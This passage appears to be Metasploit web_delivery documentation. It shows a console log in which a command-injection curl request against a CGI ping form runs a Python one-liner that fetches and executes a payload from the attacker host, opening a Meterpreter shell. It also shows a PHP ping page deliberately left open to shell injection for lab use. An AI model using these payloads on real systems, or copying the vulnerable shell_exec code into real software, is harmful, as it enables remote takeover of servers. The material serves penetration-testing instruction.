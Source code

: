 or we can exploit via curl after escaping the double quotes.  Note we use `--data-urlencode` to automatically encode for us:
```
msf exploit(web_delivery) > exploit
[*] Exploit running as background job.

[*] Started reverse TCP handler on 192.168.2.117:4444
[*] Using URL: http://0.0.0.0:8080/OKNzr8B59zWp
[*] Local IP: http://192.168.2.117:8080/OKNzr8B59zWp
[*] Server started.
[*] Run the following command on the target machine:
python -c "import urllib2; r = urllib2.urlopen('http://192.168.2.117:8080/OKNzr8B59zWp'); exec(r.read());"
msf exploit(web_delivery) > curl -X POST http://127.0.0.1/cgi-bin/example.pl --data-urlencode "ip=127.0.0.1;python -c \"import urllib2; r = urllib2.urlopen('http://192.168.2.117:8080/OKNzr8B59zWp'); exec(r.read());\"&submit=submit"
[*] exec: curl -X POST http://127.0.0.1/cgi-bin/example.pl --data-urlencode "ip=127.0.0.1;python -c \"import urllib2; r = urllib2.urlopen('http://192.168.2.117:8080/OKNzr8B59zWp'); exec(r.read());\"&submit=submit"

  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
[*] 192.168.2.117    web_delivery - Delivering Payload
[*] Sending stage (38500 bytes) to 192.168.2.117
[*] Meterpreter session 4 opened (192.168.2.117:4444 -> 192.168.2.117:47688) at 2017-03-04 15:02:35 -0500
100  1172    0   981  100   191    233     45  0:00:04  0:00:04 --:--:--   233
100  1172    0   981  100   191    158     30  0:00:06  0:00:06 --:--:--     0^CInterrupt: use the 'exit' command to quit
msf exploit(web_delivery) > sessions -l

Active sessions
===============

  Id  Type                      Information   Connection
  --  ----                      -----------   ----------
  4   meterpreter python/linux  www-data @ k  192.168.2.117:4444 -> 192.168.2.117:47688 (192.168.2.117)
```

### PHP

In this example we make a `post` form that pings a user provided IP, which is a typical function on many routers and is often abused in a similar manner.

1. Enable cgi: `a2enmod php7.0`
2. Create the vulnerable page by writing the following text to `/var/www/html/example.php`:

```
<html>
  <body>
    <?php
      if ($_POST["ip"]){
        print( shell_exec('ping -c 1 '.$_POST["ip"]) . "<hr>");
      }
      print("<form method=\"post\"
             action=\"/example.php\"
             enctype=\"application/x-www-form-urlencoded\"
             name=\"ping\">
             <p>Enter IP to ping:</p><input type=\"text\" name=\"ip\" value=\"\" />
             <input type=\"submit\" name=\"submit\" value=\"submit\" /></form>");
    ?>
  </body>
</html>
```